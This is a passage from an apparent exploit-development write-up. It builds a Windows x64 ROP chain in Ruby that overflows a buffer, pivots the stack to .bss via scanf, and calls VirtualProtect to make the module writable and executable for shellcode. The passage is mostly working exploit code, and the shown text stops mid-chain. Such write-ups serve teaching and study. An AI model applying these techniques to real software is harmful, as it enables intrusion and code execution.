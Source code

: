 I split the exploit in multiple parts, to make it easier to follow.

Let's set some variables that will act as parameters in our payload.
```ruby
fake_stack = 0x407100; # in the .bss section
jmp_scanf = 0x402bf8; # trampoline jmp to scanf
virtualprotect_ptr = 0x408294; # address of the pointer to VirtualProtect that is in the import table
```

I am representing the payload as an array of qwords, converting the array to a payload string is simple (refer to the whole exploit code for more informations).
### <span id='a298d8e04dd735b71b9bbc699eb44eca'>Part1 - Initial Buffer overflow, stack pivoting</span>

Because some gadgets end with ``add rsp, 0x28;``, we will follow them with ``[ 0 ] * (0x28 / 8)`` (that is, 0x28/8=5 qwords), so that we get to the next gadget on the chain after executing them.

```ruby
# first thing to do : scanf("%s", fake_stack); rsp = fake_stack
part1 = [ 0x6161616161616161 ] * (72/8) # 72 bytes (72/8 qwords) to get to the return address
part1 += [ 0x004019cf, 0xdeadbeefdeadbeef, 0x00402a1d ] + [ 0 ] * (0x28/8) # set rax = r8;
part1 += [ 0x004010a4 ] + [ 0 ] * (0x28 / 8) # set r8 = 0
part1 += [ 0x004019cf, fake_stack, 0x004010a4 ] + [ 0 ] * (0x28 / 8) # set rax = fake_stack, set r8=fake_stack
part1 += [ 0x00402a1d ] + [ 0 ] * (0x28 / 8) # set rdx = fake_stack
part1 += [ 0x00402bc0, 0x404000, jmp_scanf, 0x004010a7, 0, 0, 0, 0, 0, 0x0040172c, fake_stack ] # set rcx = address of "%s"; scanf(rcx="%s",rdx=fake_stack); set rsp=fake_stack
# now, the stack will become fake_stack
```

### <span id='1a2af3c8a6959c84c39768133b904836'>Part2 - VirtualProtect the main module to ERW, scanf on ERW memory, and jump to it:</span>
One challenge we face here is that we have no gadget to control the ``r9`` register, and we need it because ``VirtualProtect`` takes ``4`` arguments (fourth argument is just a pointer that retrieves the old protections).
Using ``objdump``, and looking for instructions containing ``r9``, we find this sequence:

[![Set R9](https://res.cloudinary.com/dik00g2mh/image/upload/v1558110440/when_exploit_mitigations_are_disabled_on_modern_systems/set_r9_b1dura.png)](https://res.cloudinary.com/dik00g2mh/image/upload/v1558110440/when_exploit_mitigations_are_disabled_on_modern_systems/set_r9_b1dura.png)

Let's pick the gadget at ``0x4027ff``, if we set ``rcx = 0;`` and ``rax`` such that ``dword[rax+0xc] == 0`` and ``dword [rax+8] == 0;``, then it will have the effect : ``r9 = rax+0x28;``, finding such a value for rax is simple enough, especially in a section like the ``.bss``.


```ruby
# next thing to do : VirtualProtect(0x401000, 0x11000, 7, any_writable_address)
part2 = [ 0x004019cf, 0x407400, 0x00402bc0, 0, 0x4027ff ] # set rax=0x407400; set rcx=0; set r9 = 0x407400 + 0x28
part2 += [ 0x004019cf, 0xdeadbeefdeadbeef, 0x00402a1d ] + [ 0 ] * (0x28/8); # set rax = r8;
part2 += [ 0x004010a4 ] + [ 0 ] * (0x28 / 8) # set r8 = 0
part2 += [ 0x004019cf, 0x11000, 0x004010a4 ] + [ 0 ] * (0x28 / 8) # set rax = 0x11000; set r8 = 0x11000
part2 += [ 0x00402a1d ] + [ 0 ] * (0x28 / 8) # set rdx = 0x11000
part2 += [ 0x004019cf, 0x11000^0x40, 0x004010a4] + [ 0 ] * (0x28 / 8) # set rax=0x11000^0x40; set r8 = r8^rax = 0x40
part2 += [ 0x00402bc0, 0x401000, 0x004019cf, virtualprotect_ptr, 0x00402353, 0x004010a7, 0, 0, 0, 0, 0 ] # set rcx=0x401000; set rax = virtualprotect_ptr; jmp [virtualprotect_ptr]
# now, 0x11000 bytes from 0x401000 should be ERW
# next thing to do : scanf("%s", 0x401000)
part2 += [ 0x004019cf, 0xdeadbeefdeadbeef, 0x00402a1d ] + [ 0 ] * (0x28/8); # set rax = r8;
part2 += [ 0x004010a4 ] + [ 0 ] * (0x28 / 8) # set r8 = 0
part2 += [ 0x004019cf, 0x401000, 0x004010a4 ] + [ 0 ] * (0x28 / 8) # set rax = 0x401000; set r8 = 0x401000
```